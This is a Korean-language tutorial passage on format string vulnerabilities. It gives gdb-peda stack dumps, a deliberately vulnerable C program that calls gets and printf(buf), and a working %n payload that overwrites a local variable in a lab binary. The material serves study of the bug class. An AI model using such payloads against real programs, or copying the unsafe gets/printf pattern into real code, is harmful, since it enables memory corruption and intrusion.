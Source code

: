 ```
0020| 0xffffd5e4 --> 0xf7fb3000 --> 0x1b1db0 
0024| 0xffffd5e8 --> 0x0 
0028| 0xffffd5ec --> 0xf7e19637 (<__libc_start_main+247>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048489 in main ()

gdb-peda$ x/16x $esp
0xffffd5d0:	0xffffd5d4	0x41414141	0x20582520	0x25205825
0xffffd5e0:	0xf7000a58	0xf7fb3000	0x00000000	0xf7e19637
0xffffd5f0:	0x00000001	0xffffd684	0xffffd68c	0x00000000
0xffffd600:	0x00000000	0x00000000	0xf7fb3000	0xf7ffdc04
```

`printf` 호출 직전의 스택이다. 입력 값은 `AAAA %X %X %X` 이며, 스택을 확인하면 개행(`0a`)까지 잘 입력되어 있다.
이대로 출력하면 결과는 다음과 같이 스택에 있는 값들이 출력된다.

```
Breakpoint 3, 0x08048489 in main ()
gdb-peda$ ni
AAAA 41414141 20582520 25205825
```

예상과는 약간 다른 출력 값이 나온다.. 아직 원인은 모르겠다. 이렇다 하더라도 입력 값을 늘려 내가 원하는 값을 조작할 수 있다. 

```c++
#include <stdio.h>

int main()
{
	int num=1234;
	char buf[20];
	printf("addr = %p\n",&num);
	gets(buf);
	printf(buf);
	printf("\n");
	printf("num = %d\n",num);
}
```

간단하게 변수의 주소를 출력하고 이 주소를 이용하여 공격을 시도해본다.

```
root@shh0ya-Linux:~/pwn# clear
root@shh0ya-Linux:~/pwn# (python -c 'print "AAAA\xf4\xd5\xff\xff%1230x%n"';cat)|./exam
addr = 0xffffd5f4
AAAA񗀿                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      41414141
num = 1238
```
